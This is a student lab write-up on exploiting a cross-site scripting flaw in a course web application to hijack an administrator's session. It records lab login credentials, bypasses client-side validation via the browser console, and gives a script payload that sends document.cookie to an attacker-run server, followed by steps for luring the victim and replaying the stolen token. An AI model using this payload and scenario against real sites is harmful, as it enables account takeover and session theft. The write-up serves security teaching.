# Cross-site scripting (XSS)

## Exercise — Session Hijacking

- URL: http://193.226.5.99/websec3/
- Authentication:
  - user: `user2`
  - password: `parola1234`
- Exercise:
  - Identify XSS vulnerability
  - Inject a script (payload) that exploits the identified vulnerability
  - Lure the administrator on your page to launch the attack
  - Exfiltrate the session token from the user
  - Authenticate in the attacked application using the session token

First, the value from the input is placed into the value attribute form the input field
For example, when typing `value` and submit, the page looks like this:

![1](1.png)
`<br>`I suspect that I am able to insert via the input field an html element or a new attribute for the input.

```
" onerror='alert("injected script")'
value" onerror='alert("injected script")'
```

`<br>`For this kind of input, the browser throws a popup this the message `Invalid search term !`

### Override the `validate()` function

In browser console, I typed `allow pasting`

Then I wrote in console the new `validate()` function that I want to execute

```
function validate() {
    return true; // Always allow the form submission
}
```

Then, I want to show an alert to the user, so in the search field, I type

```
"><script>alert()</script>
```

![2](2.png)

![3](3.png)

![4](4.png)

![5](5.png)

So this approach can work to inject anything else

I want to inject a script thta gives me the session token:
[Inspiration from lab 3](./WS3_%20XSS%20_%20CSRF.pdf)

`&quot;><script>var i=new Image;i.src=&quot;http://10.132.124.190:8000/server.html?&quot;+document.cookie;</script>`

A scenario would be the following:

- Condition
  - both attacker and victim need to be in the same network (it will be the UTCN Guest one)
- Attacker part
  - Log into the websec3 app
  - Craft a server that logs the session cookie of a user that is an admin (it can be found [here](./server.html), it's an html file) (localhost may be replaced with the actual ip of the local server. With `ipconfig` command, I was able to replace the local ip with the public one)
  - Then to run it, just insert the following command into a terminal that is in the same directory as the html file: `python -m http.server`
  - Send the url of the server to the victim (the url was `http://10.132.124.190:8000/server.html`)
- Victim part
  - Access the attacker's local server from browser
    ![8](8.png)
  - press `Send POST Request` button
  - Needs to log into the app
- Attacker part (again)
  - once the victim is logged, search for logs into the local server
  - find his session id, then put it into the browser cookies
  - reload - you should have been stolen the session id from the victim
    ![7](7.png)
  - ![6](6.png)
